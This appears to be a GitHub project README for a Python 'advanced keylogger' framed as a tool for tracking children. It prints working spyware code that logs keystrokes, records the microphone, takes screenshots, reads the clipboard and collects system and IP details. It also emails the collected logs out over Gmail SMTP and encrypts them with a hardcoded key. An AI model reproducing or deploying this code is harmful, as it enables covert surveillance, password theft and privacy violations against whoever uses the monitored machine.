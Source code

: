 # Advanced_Keylogger
# AIM  
To track kids activity including keystrokes, audio, screenshots, clipboard data and System information

# COMPONENTS REQUIRED  
1. Pycharm IDE
2. Downloading necessary packages/libraries:
   * email 
   * smtplib
   * socket
   * platform
   * win32clipboard
   * pynput
   * time
   * os
   * scipy
   * sounddevice
   * cryptography
   * requests
   * PIL
3. System with minimum 4GB RAM

# PROCEDURE: 

## 1) Importing all the modules/packages
        There are lot of modules/libraries required to make this keylogger. The necessary libraries are mentioned in 'componenets required' section
        
## 2) Building Keylogger
        A typical Keylogger records all keystrokes typed by the user. The keystrokes are stored in key_log.txt. Pynput package used to recored keystrokes.
       
        3 functions are used: 
        (i) def on_press(key) --> records each keys 
        (ii) def write_file(keys): --> append keystrokes to the file (key_log.txt)
        (iii) on_release(key) --> terminates the keylogger program upon clicking esc button

## System Information





# PROGRAM  

## Keylogger Functionality

    count = 0
    keys = []

    def on_press(key):
        global keys,count,currentTime

        print(key)
        keys.append(key)
        count+=1
        currentTime = time.time()

        if count >= 1: # to continously write keys to the log file
            count = 0
            write_file(keys)
            keys = []

    def write_file(keys):
        with open(file_path + extend + keys_information, "a") as f:
            for key in keys:
                k = str(key).replace("'", "")
                if k.find("space") > 0:
                    f.write('\n')
                    f.close()
                elif k.find("Key") == -1:
                    f.write(k)
                    f.close()

    def on_release(key): # To exit the keylogger
        if key == Key.esc:
            return False
        if currentTime > stoppingTime:
            return False


    with Listener(on_press=on_press, on_release=on_release) as listener:
            listener.join()

  ## System Information Retrival

    def computer_information():
        with open(file_path + extend + system_information, "a") as f:
            hostname = socket.gethostname()
            IPAddr = socket.gethostbyname(hostname)
            try:
                public_ip = get("https://api.ipify.org").text
                f.write("Public IP Address: " + public_ip)

            except Exception:
                f.write("Couldn't get Public IP Address (most likely max query")

            f.write("Processor: " + (platform.processor()) + '\n')
            f.write("System: " + platform.system() + " " + platform.version() + '\n')
            f.write("Machine: " + platform.machine() + "\n")
            f.write("Hostname: " + hostname + "\n")
            f.write("Private IP Address: " + IPAddr + "\n")

    computer_information()

  ## Microphone Functionality

    def microphone():
      fs = 44100
      seconds = microphone_time
  
      myrecording = sd.rec(int(seconds * fs),samplerate=fs, channels=2)
      sd.wait()
  
      write(file_path + extend + audio_information,fs,myrecording)
  
    microphone()
  
  ## Screenshot Functionality

    def screenshot():
      im = ImageGrab.grab()
      im.save(file_path+  extend + screenshot_information)
  
    screenshot()

  ## Clipboard Functionality

    def copy_clipboard():
      with open(file_path + extend + clipboard_information, "a") as f:
          try:
              win32clipboard.OpenClipboard()
              pasted_data = win32clipboard.GetClipboardData()
              win32clipboard.CloseClipboard()
  
              f.write("Clipboard Data: \n" + pasted_data)
  
          except:
              f.write("Clipboard could be not be copied")
  
    copy_clipboard()
  
  
  ## Email Functionality

     def send_email(filename,attachment,toaddr):
  
      fromaddr = email_address
      msg = MIMEMultipart()
      msg['From'] = fromaddr
      msg['To'] = toaddr
      msg['Subject'] = "Log File"
      body = "body of the mail"
      msg.attach(MIMEText(body,'plain'))
  
      filename = filename
      attachment = open(attachment,'rb')
  
      p = MIMEBase('application','octet-stream')
      p.set_payload((attachment).read())
      encoders.encode_base64(p)
      p.add_header('Content-Disposition', "attachment; filename= %s" % filename)
  
      msg.attach(p)
  
      s = smtplib.SMTP('smtp.gmail.com',587)
      s.starttls()
      s.login(fromaddr,password)
      text = msg.as_string()
      s.sendmail(fromaddr,toaddr,text)
      s.quit()

 ## Generating Keys  

    from cryptography.fernet import Fernet
    
    key = Fernet.generate_key()
    file = open("encryption_key.txt","wb")
    file.write(key)
    file.close()

 ## Decrypting Files

    from cryptography.fernet import Fernet
    
    key ="3Qg7tgyEwaaCBXtE2DBVf3y2zH9BuRuBiWGloJTliMc="
    
    keys_information_e = "e_key_log.txt"
    system_information_e = "e_sys_info.txt"
    clipboard_information_e = "e_clipboard.txt"
    
    encrypted_files = [system_information_e,clipboard_information_e,keys_information_e]
    count = 0
    
    for decrypted_files in encrypted_files:
    
        with open(encrypted_files[count], 'rb') as f:
            data = f.read()
    
        fernet = Fernet(key)
        decrypted = fernet.decrypt(data)
    
        with open(encrypted_files[count], 'wb') as f:
            f.write(decrypted)
    
        count += 1

# RESULT
        A python program that tracks the kid's activity including keystrokes, audio, screenshots, clipboard data and 
        System information have been completed and executed successfully.
